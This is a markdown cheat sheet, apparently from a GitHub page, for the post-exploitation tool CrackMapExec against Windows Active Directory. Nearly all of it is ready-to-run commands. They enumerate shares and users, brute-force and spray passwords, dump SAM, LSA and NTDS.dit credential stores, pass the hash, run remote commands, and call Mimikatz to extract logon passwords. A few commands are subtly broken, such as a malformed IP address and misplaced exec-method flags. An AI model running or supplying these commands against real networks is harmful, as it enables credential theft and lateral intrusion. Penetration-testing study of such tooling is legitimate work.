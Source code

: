 ## What is #Crackmapexec ?
- This is a post-exploitation tool. 
- This tool helps us move laterally in an environment while being situationally aware.
- It abuses the AD security by gathering all information from IP addresses to harvesting credentials from SAM.


## Uses of Crackmapexec

### 1. Enumeration

### - Discovering IPs
```shell
crackmapexec smb 10.200.34.0/24
```

### - Users
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password123' --users
```

### - Groups
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Pass123' --groups
```

### - Text Files
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Pass123' --spider C\$ --pattern txt
```

### - Shares
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password123' --shares
```

### - Sessions
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password123' --sessions
```

### - Password policies
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Passweord123' --pass-pol
```

### - Drives
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password123' --disks
```


## 2. Bruteforcing

### - Username - We can bruteforce the username that will match our correct password. We will be doing this on the whole network so we specify a subnet 
```
crackmapexec smb 10.200.34.0/24 -u 'Administrator' -p 'Pass132' 
```

### - Password - With cme, we can bruteforce passwords on a single target system or whole network 
```
crackmapexec smb 10.200.34.0/24 -u 'Administrator' -p 'passwords123' 
```

### - Dictionary Attack - we can perform a dictionary attack on both usernames and passwords.
- This network can be done on a single IP or a subnet as well
```
crackmapexec smb 10.200.34.0/24 -u 'user.txt' -p 'pass.txt'
```


## 3. Dumping 

### - Dumping SAM hashes -  SAM is short of Security Account Manager which manages all accounts and their passwords. SAM acts as a database which stores hashes versions of passwords 
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password123' --sam
```

### - Dumping LSA - Local Security Authority is a protected system process that authenticates and logs users on the machine.
- Domain creds are used by the OS and authenticated by the LSA
- Thus, LSA has access to credentials which can be exploited using CME

```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password124!' --lsa
```

### - Dumping NTDS.dit
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password123!' --ntds drsuapi
```


## 4. Pass the Hash Attack
- Once we have dumped the credentials, we dont need anything other than CME to perform Pass-The-Hash attack 

```
crackmapexec smb 10.200.34.0/24 -u 'Administrator' -H '<hash>' 
```


## 5. Password Spraying
- Password spraying is an attack where we get hold of accounts using same passwords for the same numerous usernames until we find a correct one.

```
crackmapexec smb 10.200.34.219 -u 'users.txt' -p 'Pass123!' --continue-on-success
```


## 6. Remote Code Execution
- We can execute whatever commands we would like on the target using the following methods

### - Using `-x`
```
crackmapexec smb 10.200.34.219 -u 'Admin' -p 'Password123' -x 'whoami'
```

### - Execution with the help of Task Scheduler service 
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password123!' -x 'net user Administrator /domain --exec-method atexec'
```

### - Using Windows Management Instrumentation
```
crackmapexec smb 10..200.34.219 -u 'Administrator' -p 'Passwrd123!' -x 'net user Administrator /domain --exec-method wmiexec'
```

### - We can also execute powershell cmdlets to execute tasks over the Remote using CME.
```
crackmapexec smb 10.200.34.219 -u 'Admin' -p 'Pass124!' -x '$PSVersionTable' --exec-method wmiexec
```


## 7. Modules in Crackmapexec
- CME provides us with various modules which call upon third party tools like Mimikatz, Msfconsole 

To view all the modules, CME has to offer
```
crackmapexec smb -L
```

### - Mimikatz Module
```
crackmapexec smb 10.200.34.219 -u 'Admin' -p 'Pas134wd1!' -M mimikatz
```
- This command will gives us hashes without any other argument.

To use a command with mimikatz using CME, we use the following command
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password12!' -M mimikatz -o COMMAND='privilege::debug'
```

OR

```
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' -M mimikatz -o COMMAND='sekurlsa::logonPasswords'
```

### Module for dns_enum in CME
```
crackmapexec smb 10.200.34.219 -u 'Administrator' -p 'Password123!' -M enum_dns
```

